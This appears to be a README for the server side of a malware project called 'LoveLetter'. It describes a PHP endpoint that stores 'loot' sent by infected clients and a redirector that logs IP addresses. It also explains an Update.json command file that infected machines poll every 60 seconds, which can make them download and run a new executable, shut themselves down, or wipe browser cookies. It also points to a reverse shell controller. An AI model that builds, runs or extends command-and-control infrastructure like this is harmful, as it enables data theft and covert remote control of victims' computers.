 <div>
  <img width="220" align="right" src="../Repo/Images/8.png" alt="LoveLetter"/>
  <br>
</div>


# 🎁 PHP Endpoints
The server system contains the following scripts that does their job"

### 📝 [Tell me!](TellMe.php) (TellMe.php)
The PHP file that handles and stores loot from the letter and stores them nicely structured on the server.

### 📝 [Take me there.](TakeMeThere.php) (TakeMeThere.php)
A redirector and IP logger, the usage is pretty simple a base64 format of the target link can be parametered on ``b64=AkN==`` or a clean link can be parametered on ``to=link``.
<br/>


# Configuration
Update.json is being fetched by the client to check for any server commands. You can update it to your liking.
This config gets initialized everytime the letter is run and then refreshed every 60 seconds, for controlling on runtime, please see [the Controller]("../Controller/")
## Sample 
```json
{
  "updateVersion": 0,
  "letterVersion": 0.1,
  "downloadLink": "http://0.0.0.0/new_tll_update.exe",
  "killSelf": false,
  "clearCookies": false,
}
```

## To be written...
> - Update Version ```updateVersion```

The version of the Update.json, always increment this whenever you updated the file, else the letter wont bother to load the json if the value is the same as the last.

> - Letter Version ```letterVersion```

The current latest version of the letter, increment this if you want the letter to download and execute ```downloadLink```.

> - Download Link ```downloadLink```

Direct download link to the newest executable.

> - Kill Self ```killSelf```

Put this to true whenever you want to remotely switch of all letters.

> - Clear Cookies ```clearCookies```

If true, it will clear all cookies and cache of ~~supported~~ popular browsers.


<br/>
<br/>

### For real-time commands you may use the [**Reverse Shell**](../Controller).